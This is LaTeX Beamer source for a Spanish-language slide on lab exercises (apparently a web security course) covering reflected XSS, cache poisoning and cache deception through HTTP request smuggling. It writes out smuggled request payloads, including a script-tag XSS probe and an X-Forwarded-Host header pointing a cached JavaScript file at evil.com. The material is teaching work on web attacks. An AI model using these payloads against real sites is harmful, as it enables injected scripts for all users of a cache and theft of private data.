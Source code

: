 \documentclass[aspectratio=169,10pt]{beamer}
\newcommand{\cmd}[1]{\texttt{\color{uznavy}#1}}
\begin{document}
\begin{frame}[allowframebreaks]{XSS Reflejado + Cache Poisoning/Deception (Labs 128, 138-139)}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item XSS reflejado via smuggling (Lab 128)
  \item Algunos vectores XSS solo son accesibles desde el servidor (User-Agent, cabeceras internas).
  \item Con smuggling inyectamos cabeceras arbitrarias en la petición de la víctima.
  \item \cmd{0}
  \item \cmd{GET /vulnerable?p=\textless{}script\textgreater{}alert(1)\textless{}/script\textgreater{} HTTP/1.1}
  \item \cmd{X-Ignore: x}
  \item $\rightarrow$ La víctima recibe la respuesta del GET smuggleado $\rightarrow$ XSS dispara en su navegador.
  \item $\rightarrow$ No requiere interacción: la víctima solo tiene que hacer una petición normal.
  \item Cache poisoning via smuggling (Lab 138)
  \item Smugglear una petición a un recurso cacheable con contenido malicioso.
  \item El servidor cachea la respuesta envenenada $\rightarrow$ se sirve a todos los usuarios.
  \item \cmd{GET /post?postId=1 HTTP/1.1 $\leftarrow$ petición real que inicia el cacheo}
  \item \cmd{0}
  \item \cmd{GET /resources/js/tracking.js HTTP/1.1}
  \item \cmd{X-Forwarded-Host: evil.com}
  \item $\rightarrow$ El JS de tracking se sirve desde evil.com $\rightarrow$ XSS persistente en caché.
  \item Cache deception via smuggling (Lab 139)
  \item Inverso: hacer que el servidor cachee una RESPUESTA CON DATOS PRIVADOS del usuario.
  \item La URL cacheada parece un recurso estático $\rightarrow$ el CDN la almacena para todos.
  \item El atacante accede a esa URL cacheada y obtiene los datos de la víctima.
  \item Cache poisoning afecta a todos. Cache deception roba datos de un usuario concreto.
  \end{itemize}
\end{frame}
\end{document}
